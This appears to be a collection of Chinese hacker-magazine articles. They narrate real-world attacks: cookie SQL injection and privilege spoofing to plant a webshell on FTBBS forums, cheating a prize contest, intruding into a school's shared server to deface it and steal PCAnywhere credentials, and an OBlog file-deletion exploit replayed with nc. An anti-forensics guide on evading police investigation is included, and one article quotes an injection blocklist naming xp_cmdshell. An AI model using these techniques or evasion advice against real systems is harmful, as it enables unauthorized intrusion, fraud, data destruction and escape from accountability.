终止码如图3所示。无论采用A、B、C何种编码方式，128码的终止码均为固定的一种形态，其编码皆为1100011101011。为此我编写了一个小程序，可以生成Code 128的条形码。大家可以根据上述原理形象体会一下条形码的编码方式，用打印机打印出来就可以看到效果了，如图4所示。希望大家在看完本文后对条形码都有一个简单的认识。

---

适合读者：入侵爱好者，脚本爱好者  
前置知识：无

## 都是Cookie惹的祸——浅析飞天论坛漏洞

文／图 何杨军

### 事情起因

由于建站需要，笔者在网上找到一款飞天论坛源码，在整合这款论坛的过程中发现一些问题，当然也包括安全问题。于是专门找了最新的一份代码来分析。飞天论坛在新版说明中写到采用Cookies技术，解决了很多网友提出的会超时问题，加强了程序安全防范以及程序优化。由原先的Session验证改用Cookies验证，我感觉很难做到安全。毕竟Cookies保存在本地，我们可以伪造。而且一般的程序员不太注重对Cookie中的变量进行过滤。

> 通过读取Cookies，得知你的相关信息，就可以做出相应的动作，如在页面显示欢迎你的标语，或者让你不用输入ID、密码就直接登录等等。从本质上讲它可以看作是你的身份证。

Cookies就是在你的电脑上建一个文本文档，记录一些信息方便你下次登录。比如在我机器上就是 `C:\Documents and Settings\xysky\Cookies`，你可以用记事本打开它，里面的数据很有规律，而且可以手工修改，这就是传说中的Cookies欺骗。造成SQL注入的原因在于一些人为可控制的变量过滤不严，或者没有过滤而直接放到SQL语句中执行，比如从表单传递过来的参数、从URL地址栏直接传递过来的参数，还有从Cookies传递来的参数。Cookies可以保存变量让服务器读取，但因为它可以伪造，所以这就为Cookies注入技术提供了前提条件。至于具体实现，这里就不多说了，因为如果手工改Cookies再提交的话，可想而知工作量不小，所以——我们都是用程序实现的。

### 背景知识

> Cookies是一种能够让网站服务器把少量数据储存到客户端的硬盘或内存，或是从客户端的硬盘读取数据的技术。Cookies是当你浏览某网站时，Web服务器置于你硬盘上的一个非常小的文本文件，它可以记录你的用户ID、密码、浏览过的网页、停留时间等信息。

### 漏洞分析与利用

#### 1、Cookie未过滤产生注入漏洞

拿到源代码之后，首先查找SQL注入漏洞。很明显的注入漏洞都被conn.asp中的一段防注入代码给封杀了，代码如下：

```vb
dim qs,errc,iii
qs=request.servervariables("query_string")
dim nothis(18)
nothis(0)="net user"
nothis(1)="xp_cmdshell"
nothis(2)="/add"
nothis(3)="exec%20master.dbo.xp_cmdshell"
nothis(4)="net localgroup administrators"
nothis(5)="select"
nothis(6)="count"
nothis(7)="asc"
nothis(8)="char"
nothis(9)="mid"
nothis(10)="'"
nothis(11)="-"
nothis(12)="\"
nothis(13)="insert"
nothis(14)="delete"
nothis(15)="drop"
nothis(16)="truncate"
nothis(17)="from"
nothis(18)="and user>0"
errc=false
for iii=0 to ubound(nothis)
  if instr(qs,nothis(iii))<>0 then
    errc=true
  end if
next
if errc then
  Response.Write("对不起，非法URL地址请求!")
  response.end
end if
```

这里过滤了很多东西，过滤了单引号就表示字符型变量没戏了，数字型变量在这段代码里也不好绕过，但只过滤了 `request.servervariables("query_string")`。此系统老版本全部采用Session验证，现在全部改用了Cookie验证。如果Cookie没过滤好，我们就可以利用一下。在check.asp文件里看到如下代码：

```vb
if request.cookies("bz")<>1 then
  rsql="update clubuser set jingyan=jingyan+10,til=til-10 where clubuser_name='"&request.cookies("name")&"'"
  conn.execute(rsql)
end if

str="select * from clubuser where clubuser_name='"&request.cookies("name")&"'"
set rs=server.createobject("adodb.recordset")
rs.open str,conn,3,1
```

上面两个SQL语句中的Cookie变量都没做任何过滤，所以存在注入漏洞。写段代码去Cookie注入，相信得到管理员的账号密码不是难事。

MD5加密，比较简单的密码还可以考虑暴破一下，复杂密码直接跳过好了，因为我们还有更简单的办法。

#### 2、前台Cookie欺骗漏洞

通过分析这套源代码可以发现，系统大多数是以 `Cookies("name")` 或 `Cookies("bbsuser")` 来验证的。我们去前台注册一个账号wskwsk，登录后发现Cookie中的bbsuser与name都是wskwsk，登录的时候记得设置一下登录选项，如图1所示。

登录之后我们可以看到Cookies目录下多了一个文本文件，也就是相关的Cookies记录。用专门的工具IECV看一下吧，如图2所示。

了解了论坛登录后的Cookies变量，接下来要做的就是修改相关代码，看能否找到漏洞进行权限提升。

```asp
<%
bbsuser=request.cookies("name")
postuser=Request.QueryString("postuser")
if postuser="" then
  postuser=request.cookies("name")
end if
if postuser<>request.cookies("name") then
  response.write "<script language='javascript'>"
  response.write "alert('对不起，你不能设置别人的签名档!');"
  response.write "history.go(-1);"
  response.write "</script>"
  response.end
end if
sql="select * from clubuser where clubuser_name='"&bbsuser&"'"
set rs=server.createobject("adodb.recordset")
rs.open sql,conn,3,1
%>
```

如果我们此时把name的Cookie值改为其他用户，就可以以其他用户的名义发帖子，还可以修改其他用户的资料，如密码及个性签名等。……不过首要目的还是得先进后台。

对FTBBS开刀吧，首先在 IE 里修改 `name` 的值为 `ftbbs`，如图3所示。


图3

保存之后再重新打开站点（在原页面刷新是没有效果的），如图4所示。


图4

现在我们以他的名义发个帖，看下是否欺骗成功，如图5所示。


图5

Good！去改密码看看，跑到修改个人资料处就可以修改，并且不要原先的密码进行验证，如图6、图7所示。改了管理员的密码，去后台好好转一圈看看。

#### 3. 后台Cookie欺骗漏洞

前台改管理员密码，总感觉有点缺德。因为你改了人家密码，管理员就无法登录后台进行正常管理了，自然也会发现服务器被入侵。我们还是去找找更好的办法吧，下面是后台相关代码：


图6


图7

```vb
password=trim(request.form("password"))
for i=1 to len(username)
  cl=mid(username,i,1)
  if cl="'" or cl="<" or cl=">" or cl="%" or cl="/" or cl="#" or cl="$" then
    response.write "<script language=javascript>alert('请输入正确的用户名！');"
    response.write "window.location.href='index.asp';</script>"
    response.end
  end if
next

for i=1 to len(password)
  pwd=mid(password,i,1)
  if pwd="'" or pwd="<" or pwd=">" or pwd="%" or pwd="/" or pwd="#" or pwd="$" then
    response.write "<script language=javascript>alert('密码中不能有非法字符！');"
    response.write "window.location.href='index.asp';</script>"
    response.end
  end if
next
```

此处过滤了空格、单引号以及其它字符，并且官方网站用的是 Access 数据库，从登录页面想办法是没戏了。接着看其它文件，会发现它们都调用一个 `check_master.asp` 文件检测是否为管理员，如果不是管理员则无法访问后台页面。可惜此文件居然用 Cookie 来判断，代码如下：

```vb
if(request.cookies("bbsadmin")<>1) then
  response.write "<SCRIPT language='JavaScript'>alert('对不起，你不是管理员！');"
  response.write "history.go(-1);"
  response.write "</script>"
  response.end
end if;
```

就是说，只要我们改一下 `bbsadmin` 的 Cookie 值即可，把 0 改为 1 然后保存。最后访问后台管理页面 `admin/manage.asp`，轻而易举地进了后台。对于这样的漏洞，个人觉得后台最好还是用上 Session 验证，非要用 Cookies 验证的话……最好不要让用户直接访问管理后台页面，比如这里的 `manage.asp`。

#### 4. 都是Cookie惹的祸

到现在为止，我们是绝对可以进后台的。可是进去之后，我们能做什么呢？就只能管理几个用户，管理几个版块帖子吗？不，我们要的是 WebShell。后台几乎没什么可以直接利用的地方，不过有个上传设置，这里可以设置上传文件的类型，加个 ASP 再说，如图8所示。


图8

去前台刷新了无数次，还是提示无法上传 ASP，如图9所示。


图9

不管这么多，直接上传 ASP 木马看看。结果如图10所示。还是继续分析代码吧（为了方便调试，我加上了自己的一些代码）：


图10

```vb
FileExt=GetExtendedName(file.FileName) '图片类型
' 小雨测试漏洞
Response.Write "刚才上传的文件格式为："&FileExt&"<br>"
Response.Write "系统中规定的格式为："&upfiletype&"<br>"
' 好郁闷
if InStr(upfiletype,FileExt)<=0 then
  response.write "出错了兄弟！"
  response.write "<SCRIPT language=JavaScript>alert('只能上传'+replace(upfiletype,'|',',')+'&类型的图片！');"
  response.write "history.go(-1);"
  response.write "</script>"
  response.end
end if
```

上传 ASP 木马测试一下，返回的信息如下：

```text
刚才上传的文件格式为：asp
系统中规定的格式为：gif|jpg
出错了兄弟！
```

这里有如下代码：

```vb
function pickind(kind)
  Sql_kind="select * from config where kind='"&kind&"' order by id asc"
  set rskind=server.createobject("adodb.recordset")
  rskind.open Sql_kind,conn,1,1
  pickind=rskind("content")
  rskind.close
  set rskind=nothing
end function

Function FTBBS_CS()
  If vartype(Application("FTBBS_CS_1"))=0 or vartype(Application("FTBBS_CS_2"))=0 or vartype(Application("FTBBS_CS_3"))=0 or vartype(Application("FTBBS_CS_4"))=0 then
    url=pickind(1)
    if right(url,1)<>"/" then
      url=pickind(1)&"/"
    end if
    Application.Lock
    Application("FTBBS_CS_1")=url
    Application("FTBBS_CS_2")=pickind(2)
    Application("FTBBS_CS_3")=pickind(3)
    Application("FTBBS_CS_4")=pickind(4)
    Application.UnLock
  end if
End Function
```

不难看出，这里用到 `Application("FTBBS_CS_2")` 来保存上传格式 `upfiletype`，而 `Application("FTBBS_CS_2")` 又是 `pickind(2)` 赋的值。数据库里实际已经有 ASP 了，但 Application 变量却没有更新。那我们就帮它更新一下吧。新版后台有一个清除缓存的功能，刚好借用一下，如图11所示。


图11

清除缓存就可以了，回到前台，如图12所示。


图12

现在去前台发个帖，上传一个木马，很顺利拿到一个 WebShell，如图13、图14所示。

### 实战总结

关于论坛与 Cookies 的问题就说到这，要成功利用漏洞需要注意的问题如下：

- Cookie 欺骗修改数据之后要重新打开网站一次，刷新是没用的。
- 针对版本比较低的论坛，进后台后要设置审核参数，否则前台上传图片需要审核才能看到效果。
- 修改上传文件类型参数加个 ASP 就可以提交保存，然后清理缓存（会影响在线人数统计，需注意后果）。
- 前台发帖或回复时直接传 ASP 即可。
- 事后注意清理现场：图片类型、审核参数，以及后台日志中记录的 IP 与时间等。


Cookies 引出的问题不少，有效防止 Cookies 欺骗可采用 Cookies + Session 双重验证，也可参考动态密码方案。

适合读者：入侵爱好者，脚本爱好者  
前置知识：无

## 网易手机图片铃

文/图 陶洋


网易手机网上的铃声比较好听，下载时却需要输入手机号。作者尝试寻找绕过方式，如图1所示。


为了免费听铃声，使用 IE 打开页面并按 Ctrl+N 可看到页面 URL（图2）。

虽然能看到源代码，但直接查找并不总是可行，实际会遇到“找不到”的情况（图3）。


无意中发现了页面的隐私报告功能（图4），其中可看到与页面请求相关的站点与路径信息。


问题应该就在这里了，试着访问了一下第二个链接。界面有所变化，如图5所示。

此时再次查看源代码，果然没有让我失望，终于找到了一个 WMA 文件的下载地址，如图6所示。


接下来的事情就很简单了，把这首好听的铃声传到手机上。可有的朋友说了，我的手机没有数据传输线怎么办。没有数据线也没关系，不过起码得保证你的手机有 WWW 浏览器，通过手机的浏览器访问你的空间，然后把歌曲下载回来，这样就只会收取你手机的数据流量费用，相对来说便宜了很多（希望网易的网管员注意此漏洞）。

适合读者：网络  
前置知识：木马使用基础


## VIP会员学习成果展示

## 卡死卡，轻松到手

文／图【黑防VIP】小生这厢有礼

最近在一个黑客论坛上看到了一个关于免费得 QQ 宠物的动画，是利用腾讯公司活动的 Flash 快速漏洞使你 100% 地获得 QQ 宠物。但是经过我的测试，成功率并不像作者写的那样高。多数时候显示成功领取，而你实际并没有获得。恰好，我遇到一个与此类似的网站……

让我们打开这个网页：http://site.pchome.net/productevent/0401/，如图1所示。


这是一个电脑之家和讯景公司联合搞的一个有奖游戏活动，我们要做的就是玩一个拼图小游戏，速度越快越好，第一名有大奖赠送。我试了试，只有 244 分。回头看了看排名，如图2所示。别人都 800 多分了，就我那点分数根本排不上名次。现在想想有什么好办法没有。既然这也是个 FLASH 小游戏，那么可以尝试一下“快进”漏洞。不过很可惜，漏洞不存在。

| 用户名 | 昵称 | 得分 | 参赛时间 |
|---|---|---:|---|
| loveran | 野天 | 820 | 2006-04-23 13:11:01 |
| zhaoxf | 勇敢 | 816 | 2006-04-23 07:25:13 |
| ... | ... | ... | ... |

然后我就把 Flash 下载回来分析了一下，这是在黑客防线的 VIP 教程里面学会的东西，相信大家都很熟悉吧。察看源代码，找到 Flash 的地址，然后下载。网页的源代码很简单，可是竟然没有 SWF 文件的地址，看来网页是经过处理的。用“火狐Flash播放器”的网页 Flash 保存功能试试，这是成功率比较高的一个方法，结果又失败了，如图3所示。

这下可郁闷了，查阅了大量资料，好像都没有这方面的介绍。就在绝望的时候，一个念头在我头脑里闪现。此游戏需要你在很短的时间里面完成拼图，游戏的 Flash 里肯定有个时钟在记录你所花费的时间。那么我想，如果我用了 5 分钟完成了拼图，然后把我的系统时间改到 4 分钟前，是不是相当于只用了一分钟呢？这种想法或许也会出现在你的头脑中，但试验的结果告诉我们这是不行的。既然改变系统时钟不行，我就想到改变系统频率，也就是说让钟走得更慢一些。


现在请出我们今天的主角——变速齿轮。选择你的 IE 进程加入改变，如图4所示。接下来就是变速了，变到原来的四分之一或者更慢吧。我再次来玩这个游戏，因为时钟变得很慢，我竟然打出了 950 的高分！如图5所示。


这样的好事的时候，朋友们也可要抓紧时间上啊。

本文没有什么技术含量，不过就是这样没有技术含量的小把戏，我们就可以免费拿到千元显卡。

适合读者：网络爱好者、入侵爱好者  
前置知识：无

## 拿下入口机服务器

文／图 Sheldon


### 引子

某日，我和一同学聊到了彼此的高中，心中不禁感慨万千。一说起高中我就火大，我们可是祖国的花朵啊，却被某些园丁“摧残”了好几年，最搞笑的是高中学校有一个网站，可还老被人黑……和我同学聊完后，没见那同学同我诉苦，看来他在高中时一定过得很滋润，不过这倒激发起了我入侵他们学校网站的欲望。（脚本小子：现在的年轻人心理怎么都这么黑暗呢？）

### 客套

打开主页一看，做得很漂亮。很显然是包给专门的网页设计公司做的。那些公司只会在美观上下足功夫，在安全性上通常都不注意细节的。既然如此，那我们就从脚本入手吧。随便在一个公告上点右键查看属性。晕倒，竟然是 `http://www.xxx.cn/index.asp#`（以下用 `www.xxx.cn` 代替此网站真实地址），继续点击刚才的公告，会弹出一个新窗口，我们来看它的真实地址 `http://www.xxx.cn/news/shownews.asp?newsid=1046`，立即在其后加个单引号看看。结果提示 newsid 错误，没有出错页面。看来此路不通，我又在其他页面看了看，试图找到别的漏洞。最后只发现了一个留言本和论坛，留言本被整合了，看不出来用了什么程序，论坛用的是 LeadBBS，版权信息被修改了，也看不出是什么版本的。

> 大家平时最好多留意一下常见的几种论坛的格式或细节，这样我们就算没有版权信息，也能猜出它使用了哪种论坛，如果对默认的数据库地址也熟记更好。

我们来看看管理员安全意识怎么样，是否把默认的数据库改了，结合网站地址构造数据库 `http://bbs.xxx.cn/Data/LeadBBS.mdb`，回车后提示下载，如图1所示。看来好运来了。下载的时候要注意一下数据库的大小，因为有的管理员实际上把数据库地址修改了，但是默认的数据库却没有删除，让我们空欢喜一场。该数据库足有 6MB，肯定就是我们想要的真实数据库。打开数据库中的 `LeadBBS_User` 表，看到了管理员 MD5 加密后的密码，拖到了 MD5Crack 里暴力破解，不过很郁闷的是暴力破解无效。


### 峰回路转

怎么办呢？看看服务器上还有没有其他站点吧，旁注一下试试。拿出明小子旁注综合检测工具来，输入域名查出 IP，看看绑定了多少站点。不看不知道，一看吓一跳，大大小小的网站有 20 多个，由此可见这可能是多人合租的一台服务器（后面的发现证实了我的想法）。这不像小型的虚拟主机，一个服务器放几百个网站，多人合租服务器每人只花费稍高一点的价钱即可拥有相当可观的空间大小和带宽，因为中间跨过了空间商，价钱要相对便宜些，所以对站长们还是很具有诱惑力的。但是服务器的管理员水平良莠不齐，只要有一个站点被攻破，整个服务器就被端掉了。

服务器的管理员到底怎么样吧。在 20 多个站点中随意找了几个看看，发现有一部分网站存在漏洞，但是并不是说有漏洞就一定能得到 WebShell，有的网站后台没有备份数据库功能，有的干脆上传功能都没有，所以大家在入侵的时候一定要注意网站是不是只有新闻发布系统，如果只有新闻系统那就不要尝试了，即使进入了后台一般也没有太大权限，并且还浪费时间。我在这台服务器上找了一个较大的网站，有注入漏洞，扫出用户名和密码后登录后台，过程不再赘述。在“上传资料”区上传我们的木马，如图2所示。


图2

但是返回的信息并没有告诉我们木马的地址，不用担心，既然是上传的资料，那就一定可以让人下载。我们返回首页的资料下载区，打开最新上传的资料。怎么样，看到了我们的小马了吧？如图3所示。


图3

用小马简单地查看了一下服务器，发现权限划分得简直……除了 C 盘不可写之外，其他分区均可读可写。我也发现了同学校的网站，在 `E:\www\www.xxx.cn\` 下。于是进去在首页里添了一句话“Hacked By Sheldon 2006.4.18”，准备去吓吓同学，如图4所示。


图4

### 提权

既然一个小马就可以控制全部网站，看来拿下整个服务器也没问题。打开 `C:\Program Files\` 瞅瞅，发现可利用的程序还真不少，有 PCAnywhere 和 ServU。直接下载 PCAnywhere 的 CIF 文件，然后破解密码。可惜文件里没有密码。

继续转悠，来到管理员的文档文件夹，发现有个“Manage.txt”文件，打开后发现里面记录了服务器各合租股东的信息，其中也包括服务器空间和带宽怎么分配的问题。看来这真的是一台多人合租的服务器。不一会我又看到了一个文件夹 `C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\`，感觉这么眼熟，原来密码文件是保存在这里的。刚才一激动直接从 PCAnywhere 的安装目录里下了个 CIF 文件，怪不得破不出密码呢。

重新下载密码文件，用 PCAnywhere 密码查看器查看，终于得到了管理员的密码，如图5所示。


图5

最后在本机安装上 PCAnywhere 然后连上去，终于拿下了服务器，如图6所示。


图6

### 最后总结

本文并没有多少出彩的地方，都是按照固定的思路做的，但是结合本次入侵，我总结了一些经验与大家分享：

- 各位站长合租服务器的时候一定要找对人，找个合格的管理员看管服务器，把权限都分配好，不要因为一个小小的漏洞毁掉了整个服务器。
- 下载数据库的时候有几点技巧：先看数据库大小是否正常；有的管理员更改了数据库位置但默认库未删除；一般下载到比默认数据库更大的库更可能是真实库；下载后先用杀毒软件检查再打开。
- 大多数情况下直接上传 ASP 木马并不容易，必须后台有上传功能且不过滤后缀；较大的站点更容易通过上传得到 WebShell，小型站点往往连备份数据库功能都没有。
- 从 WebShell 提权时要多收集资料。较快的方法是直接下载 PCAnywhere 的密码文件破解；如果服务器没装 PCAnywhere，再考虑 Serv-U 溢出、FlashFXP 等方法。

**脚本小子：** 黑与白的较量犹如针尖对麦芒，暗涛汹涌，个中究竟是如何激烈？请看此文……  
**适合读者：** 入侵爱好者、网络爱好者  
**前置知识：** 无

## 黑客与网警的较量


目前网警抓黑客的主要技术是计算机取证技术，又称为数字取证或电子取证。它是一门计算机科学与法学的交叉科学，是对计算机犯罪的证据进行获取、保存、分析和出示的一个过程。而黑客与网警较量的技术自然就叫计算机反取证技术，即删除或者隐藏证据，从而使网警的取证工作无效。

本文以技术研究为前提，从取证与反取证方面展开讨论。俗话说得好“知己知彼，百战百胜”，因此了解一下网警是怎么取证的、用到哪些技术及工具，然后有针对性地去进行反取证。

### 网警

从上面我们知道，网警的主要技术是取证。下面我们就来了解一下什么是取证技术……网警破案的第一步也是封锁现场，让调查人员来到计算机犯罪现场或入侵现场，寻找并扣留相关的计算机硬件。这一步在计算机取证上也叫物理证据获取……第二步就是对保护和提取的数据进行分析，它的范围包括现存的正常文件、已经删除但没有被新文件覆盖的文件、隐藏文件、受到密码保护的文件及加密文件等等。

- 用搜索工具搜索所有逻辑文件、Slack 磁盘空间、自由空间、未分配空间中所有特定的数据。  
- 由于黑客在入侵时会删除数据，所以还要用数据恢复工具对没有覆盖的文件进行恢复。  
- 对系统中所有加密的文件进行解密。  
- 用 MD5 对原始证据上的数据进行摘要，然后把原始证据和摘要信息保存。

上面的就是网警在取证时所要进行技术处理的地方，然后根据分析的结果（如 IP 地址等等）来确定嫌疑人。下面介绍一些网警在取证时常用到的专业软件，对此方向感兴趣的朋友可以到网上去下载。

- 文件浏览器：专门用来查看数据文件的阅读工具（如 Quick View Plus）。  
- 图片检查工具：ThumbsPlus。  
- 反删除工具：Easy Undelete。  
- 文本搜索工具：dSearch。  
- 驱动器映像程序：用于建立驱动器映像（SafeBack、SnapBack、Ghost 等）。  
- Forensic Toolkit：基于命令行工具，帮助推断 Windows NT 文件系统访问行为。  
- EnCase：数据浏览、搜索、磁盘浏览、数据预览、建立案例、建立数据、保存案例等。  
- CRCMD5：验证一个或者多个文件内容的 CRC 工具。  
- DiskScrub：清除硬盘驱动器中所有数据。  
- DiskSig：验证映像备份的精确性。  
- FileList：磁盘目录工具，用来建立用户在系统上的行为时间表。  
- GetSlack：用于捕获未分配的数据。  
- GetTime：用于捕获分散的文件。  
- Net Threat Analyzer：网络取证分析软件，用于识别公网账号滥用。  
- NTI-DOC：记录文件日期、时间及属性。  
- PTable：分析及证明硬盘驱动器分区。  
- Seized：对证据计算机上锁及保护。  
- ShowFL：分析文件输出清单。  
- TextSearch Plus：定位文本或图形软件中的字符串。

### 黑客

通过上面的学习，相信大家对网警的取证工作都有一定的了解了吧。取证的最终目的就是要从海量的数据中提取出黑客入侵后留下来的证据，作为黑客的反取证对抗基础。目前比较有效的反取证技术有：数据擦除、数据隐藏。

数据擦除就是清除所有可能的证据，这样取证就无法进行了，这是最有效的反取证方法。数据隐藏就是将暂时还不能被删除的文件伪装成其他类型，或者隐藏在图形文件中，还可以隐藏在磁盘上的 Slack、交换空间等等，目的是让别人永远也找不到有用信息。这些都被称为数据隐藏。

- **数据擦除**：很多朋友在入侵之后把日志文件删除了，以为就万事大吉，其实这远远不够。手工删除通常并未真正覆盖数据，恢复软件仍可还原。一般至少要进行 7 次以上反复覆盖，才能较彻底删除。文中推荐 Windows 下的删除工具 **WYWZ**（据称采用美国国防部标准），如图1所示。


图1

本人建议擦除标准为 7 次以上，这样就很难留下痕迹了。日志文件是取证中的重要工作，但仅删除日志远远不够，还应进一步擦除内存、缓冲区、硬盘数据以及 CPU Cache 中的数据等。

- **数据隐藏**：常见技术有数据加密、更改文件后缀名、隐写术等。通常先对数据加密，再用隐写术隐藏，可显著增加取证难度。

隐写术通俗来说就是把证据写在正常文件下，从而躲过分析。例如把“黑客与网警的较量.doc”隐藏在“我的相片.bmp”中（图2）。然后利用 DOS 中的 Copy 命令将两个文件合并生成 haha.bmp（图3），再比较图像大小可见变化（图4）。


图2


图3


图4

比较知名的隐写工具有：

1. **StealthDisk**：可隐藏计算机中所有文件和文件夹，同时删除在线 Internet 访问记录。  
2. **Cloak**：可对文件加密并将其隐藏在位图文件。  
3. **Invisible Secrets**：可将数据隐藏在 JPEG、PNG、BMP、HTML 和 WAV 中。

### 实战

通过上面的学习，读者应对网警取证和黑客反取证有大致了解。下面通过一个完整的模拟攻击过程说明攻防中需要注意的问题，以逃避网警取证。入侵过程大致为：踩点 → 入侵 → 清脚印。

踩点阶段需要重点注意 IP 地址是否暴露。很多拨号或 ADSL 用户使用动态 IP，常误以为 IP 是随意分配、无需隐藏。实际上每次连接期间 IP 通常保持不变，且与 ISP 的网络 ID/主机 ID 分配有关，因此网警仍可据此追查。只要通过网络运营商的认证系统，找到与之捆绑的账户，就可以确定上网者。所以动态 IP 也和静态 IP 一样，是可以轻易找到上网者的……

在入侵时最重要就是隐藏好自己的 IP 地址，一般的方法是利用跳板（肉鸡）来进行入侵，最后把留在肉鸡上的日志删除，然后离开……真正的高手不仅会用到上面两种方法，同时也会在入侵服务器之前，把其与目标服务器之间的一些路由器干掉，以保证自己的最大安全。

入侵这个过程主要注意的问题是：不要被 IDS 或类似的软件发现有人入侵……

清脚印：首先把所有日志文件删除，注意一定要用工具对原来日志文件进行反复覆盖；然后利用内存删除工具把内存数据删除，还有 CPU 的 Cache 中的数据及缓冲区也要做相同处理……对于不能够删除的数据，先把文件的后缀改掉，然后用数据加密软件对数据进行多次加密……

以上是入侵过程中需要重点注意的问题，虽然上面是一个反取证的过程，但是我想对于研究取证也是很有好处的……

---

**脚本小子：** OBlog2.52 以前也有一个文件删除漏洞，不过那已经是 2004 年的事情了，又爆出新漏洞？好玩的东西越来越多，看来我们这个暑假也不用闲着了。  
**适合读者：** 入侵爱好者，脚本爱好者  
**前置知识：** 无

## OBlog2.52 再现文件删除漏洞

文 / 较荧的刺猬


### 起因

其实看到演示 OBlog2.52 文件删除漏洞的动画，是在我发现此漏洞之后。因为需要一些资料，意外地搜到了那个动画……对于那个删除任意文件的漏洞，官方早已经修补了，但很不幸的是，还是同一个地方，同样是删除文件漏洞，又被我挖了出来……

### 漏洞分析

OK！先来看一下漏洞是如何形成的！在 `user_uploadfile.asp` 中有这样一段代码：

```vb
sub delfile()
    del=filtfilename(trim(del))
    dim fn_size,fileinfo
    set rs=server.createobject("adodb.recordset")
    rs.open "select upfiles,upfiles_size from [user] where userid="&userid,conn,1,3
    if not rs.eof then
        if instr(rs(0),del)>0 then
            if fso.FileExists(Server.MapPath(uppath&"/"&del)) then
                Set fileinfo = fso.GetFile(Server.MapPath(uppath)&"/"&del)
                fn_size=fileinfo.size
                fso.DeleteFile Server.MapPath(uppath&"/"&del)
            end if
        end if
    end if
    ...（略）
    rs(1)=rs(1)-fn_size
    rs.update
end if
rs.close
set rs=nothing
response.Redirect "user_uploadfile.asp"
end sub
```

看不懂？不要紧，我们一起分析代码的流程。首先是 `del` 的赋值。先看一下 `del` 是如何接收的，原来用的是 `del=trim(request.QueryString("del"))`，没有任何过滤；但在赋值的时候，却用到了 `filtfilename()` 进行过滤。那么这个自定义函数都过滤了什么？

```vb
Function filtfilename(filename)
  if isEmpty(filename) Then Exit Function
  filename = Lcase(filename)
  filename = Replace(filename,Chr(0),"")
  filename = Replace(filename,"asp","")
  filename = Replace(filename,"asa","")
  filename = Replace(filename,"aspx","")
  filename = Replace(filename,"cer","")
  filename = Replace(filename,"cdx","")
  filename = Replace(filename,"htr","")
  filtfilename=filename
End Function
```

禁止提交带 asp、asa 之类的文件名。起初看到该过滤时我很是疑惑不解，难道在“上传文件管理”中还可以管理 asp 之类的文件？待看过那个演示后才搞明白了。原来这是针对 2004 年删除任意文件的过滤，但这种过滤方式也不安全。比如提交文件名为 `../index.aaspsp`，过滤 asp 后变成 `../index.asp`，仍可构造危险文件名。

继续分析查询语句 `select upfiles,upfiles_size from [user] where userid=...`，删除动作受 `userid` 限制，并且还会检查 `if instr(rs(0),del)>0 then` 才执行 `fso.DeleteFile Server.MapPath(uppath&"/"&del)`。

是否觉得上面的代码无懈可击呢？NO！如果提交的 `userid` 不是当前用户 ID，而是某个用户的 ID，同时提交的 `del` 参数又是这个用户上传的文件，那么执行删除会出现意想不到的结果。随后作者在测试站点中通过注册用户、上传文件、定位“删除”链接来复现问题，并观察 IE 状态栏中的 URL。


图1


图2

查看代码发现 `user_uploadfile.asp` 头部有 `<!--#include file="user_chkpass.asp"-->`，该文件用于验证提交来源；若没有 `HTTP_REFERER`（来源）就会报错。既然不能在 URL 中直接执行，可以借助 NC 提交：用 Winsock Expert 监听后台管理页，点击右侧“删除”链接，抓包得到请求数据。

```http
GET /252/user_uploadfile.asp?del=2006610132939975.jpg&userid=389 HTTP/1.1
Accept: image/gif,image/x-xbitmap,image/jpeg,*/*
Referer: http://test.OBlog.cn/252/user_uploadfile.asp
Accept-Language: zh-cn
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; SV1; .NET CLR 1.1.4322)
Host: test.OBlog.cn
Connection: Keep-Alive
Cookie: ASPSESSIONID..., OBlog123=...
```

作者注意到提交方式是 GET，且删除文件名与用户 ID 在同一行，便于修改重放。将 `del` 改为目标文件名，替换 Cookie 后通过 `nc.exe -vv test.OBlog.cn 80 < 1.txt` 提交，可触发删除。随后继续通过更换用户身份与参数，验证可删除其他用户上传文件，完成漏洞利用过程说明。


“userid”为 52cc 的 ID 值 389，这个值在图1中的状态栏内已经显示出来了。修改完毕后，再次用 NC 提交，返回的信息和删除当前用户文件时的信息差不多，是否成功呢？刷新 52cc 的那篇日志，如图4所示，网页内只显示一个带“叉”的框，图片不见了！


首先输入“博客列表”的 URL 地址，然后在“用户页”中输入“博客列表”中的页数，最后点“抓取用户”，很快就能拿到所有的博客名称了。注意，每个名称后所显示的数值是按倒算方式得来的，真正的 ID 值等于用户总数减去倒算的 ID 值。当然，这样得到的数值并不精确，只能起到一个参考作用。有了这个 ID 值，就可以删除某个用户日志中所显示的文件了。先在当前用户下删除一个文件，将抓到的数据分别填入所对应的项目内，然后点“测试”按钮。只要该用户的 ID 属于所估算的 ID 范围内，那么所指定的文件必被删无疑！

### 批量洗号


进行到这，OBLOG2.52 版的上传文件删除漏洞就浮出了水面。只要我们拿到了用户的 USERID 值，那么这个用户所上传的任意文件，都会被轻而易举地删掉。

但问题又来了，在 OBLOG2.52 中，除了在后台管理页能得到某个用户的 USERID 值，在前台根本看不到其他用户的 USERID 值，总不能一个个地试吧？正在犹豫之间，首页的“博客列表”引起了我的注意。按其查询方式，这里是以 `order by userid desc` 降序的方式显示的。如果把这些用户全提取出来，然后进行排序，不就能算出某个用户的 USERID 值了吗？按照这种想法，再结合前面的文件删除方法，用 VB 编了个小玩意——OBLOG2.52 上传文件任意删，如图5所示。

### 修补

```sql
select upfiles,upfiles_size from [user] where userid='&userid'
...
select upfiles,upfiles_size from [user] where userid='&userid&' and UserPassword='" & password & "'
```

说完了漏洞，再说一下修补方法。通过前面一系列的分析可知，漏洞的根源在于仅以 USERID 进行判断是不完善的，应该再加入用户密码判断，形成“USERID + USERPASSWORD”双保险。这样即使用户绕过了 USERID，USERPASSWORD 也不容易绕过，从而将删除权限限制在当前用户下，避免越界删除。

---

> 脚本小子：很多管理员在做系统安全时会把 net 和 net1 命令删除，这会导致我们无法使用 net 命令添加用户。不过此路不通还有它路，我们要善于运用所学知识，总结经验，把一切不可能变为可能！

**适合读者：** 入侵爱好者，脚本爱好者  
**前置知识：** 无

## 没有 NET 命令也要玩入侵


### 常规入侵

长期没有入侵，“技术”都有点生疏了，再不“练习练习”怕连菜鸟都没得当。上 Google 输入试试入侵关键词，出来很多韩国网站，随便选了个速度不错的。看了看网站，发现是用 ASP 语言写的。先看看能不能找到注入点吧，没花太久时间就找到一个，而且是 SA 权限，如图1所示。

本来以为这样就结束了，可是很多事情才刚刚开始。先看看肉鸡的 IP 吧，在 NBSI 上输入 ipconfig 得到 IP 地址是 61.74.**.35。


